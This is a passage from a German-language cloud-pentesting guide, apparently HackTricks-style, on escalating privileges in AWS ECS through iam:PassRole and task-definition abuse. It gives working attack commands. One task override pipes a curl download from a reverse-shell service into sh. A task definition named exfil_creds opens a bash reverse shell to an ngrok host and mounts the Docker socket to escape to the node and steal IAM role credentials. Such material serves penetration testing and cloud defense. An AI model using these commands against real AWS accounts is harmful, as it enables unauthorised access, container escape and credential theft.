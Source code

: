 ```bash

# Run the task creating a service
aws ecs create-service --service-name exfiltration \
--task-definition iam_exfiltration \
--desired-count 1 \
--cluster "$CLUSTER_ARN" \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"$SUBNET\"]}}"

# Run the task updating a service
aws ecs update-service --cluster <CLUSTER NAME> \
--service <SERVICE NAME> \
--task-definition <NEW TASK DEFINITION NAME>
```
**Mögliche Auswirkungen:** Direkter privesc auf jede ECS-Rolle.

### `iam:PassRole`, (`ecs:UpdateService|ecs:CreateService)`)

Tatsächlich ist es mit genau diesen Berechtigungen möglich, overrides zu verwenden, um beliebige Befehle in einem Container mit einer beliebigen Rolle auszuführen, etwa so:
```bash
aws ecs run-task \
--task-definition "<task-name>" \
--overrides '{"taskRoleArn":"<role-arn>", "containerOverrides":[{"name":"<container-name-in-task>","command":["/bin/bash","-c","curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh"]}]}' \
--cluster <cluster-name> \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"DISABLED\", \"subnets\":[\"<subnet-name>\"]}}"
```
**Mögliche Auswirkungen:** Direkter privesc auf jede ECS role.

### `ecs:RegisterTaskDefinition`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

Dieses Szenario ähnelt den vorherigen, jedoch **ohne** die **`iam:PassRole`** Berechtigung.\
Das ist weiterhin interessant, denn wenn du einen beliebigen Container ausführen kannst, selbst ohne role, könntest du **run a privileged container to escape** und **steal the EC2 IAM role** sowie die **other ECS containers roles**, die auf dem Node laufen.\
Du könntest sogar **force other tasks to run inside the EC2 instance** kompromittieren, um deren Anmeldeinformationen zu stehlen (wie in der [**Privesc to node section**](aws-ecs-post-exploitation/README.md#privesc-to-node) besprochen).

> [!WARNING]
> Dieser Angriff ist nur möglich, wenn der **ECS cluster is using EC2** instances und nicht Fargate.
```bash
printf '[
{
"name":"exfil_creds",
"image":"python:latest",
"entryPoint":["sh", "-c"],
"command":["/bin/bash -c \\\"bash -i >& /dev/tcp/7.tcp.eu.ngrok.io/12976 0>&1\\\""],
"mountPoints": [
{
"readOnly": false,
"containerPath": "/var/run/docker.sock",
"sourceVolume": "docker-socket"
}
]
}
]' > /tmp/task.json

```